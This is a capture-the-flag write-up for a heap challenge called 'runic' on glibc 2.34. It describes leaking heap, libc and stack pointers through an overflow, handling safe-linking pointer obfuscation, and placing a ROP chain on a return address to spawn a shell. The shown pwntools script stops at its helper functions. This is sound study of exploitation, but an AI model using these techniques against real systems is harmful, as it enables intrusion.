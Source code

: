 Next we need a libc pointer. We can use the same method of overwriting to overwrite a chunk size to be 0x421. Then free that pointer to get a libc pointer. Then overflow untill we hit the libc pointer to leak again.

Once leaking is done, we can just overflow into the free pointers of the tcache bins. But since this is libc 2.34 no free hook is available (I think). So we'll instead leak the stack as well.

To leak the stack, we use the overflow again to overwrite a free pointer to point at __libc_argv. We need to remember to obfuscate the pointer we are writing as this is libc-2.34.

Obfuscation can be done as follows:
```py
def obfuscate(pos,ptr):
    return (pos>>12) ^ ptr
```

Next we allocate that chunk and fill it with data untill we hit the stack pointer. Then show that chunk.

Once we have a stack leak, we just need to allocate a chunk on top of the return pointer for edit, with a ROP chain. Again this is done by overflowing into a free pointer, and then allocating that free pointer.

In short we:
1. Use overflow to write up to heap free ptr and leak it. Then deobfuscate it
2. Use overflow to overwrite size of a chunk, then free it to get a libc pointer. Leak by using the same method as in 1
3. Use overflow to allocate a chunk on top of __libc_argv. Fill it with data untill we can leak the pointer
4. Use overflow to allocate a chunk on top of the edit functions return pointer, to allocate a ROP chain and spawn shell


Exploit:

```py
from pwn import *

gdbscript = """
c
"""
#io = gdb.debug("./runic",gdbscript=gdbscript)
#io = process("./runic")
io = remote("165.227.224.40",32085)

def create(name,size,data):
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'Rune length')
    io.send(f"{size}".encode())
    io.recvuntil(b'Rune contents:')
    io.send(data)

def delete(name):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Rune name:')
    io.send(name)

def show_rune(name):
    io.recvuntil(b'Action:')
    io.sendline(b'4')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'Rune contents:\n\n')
    return io.recvline()
```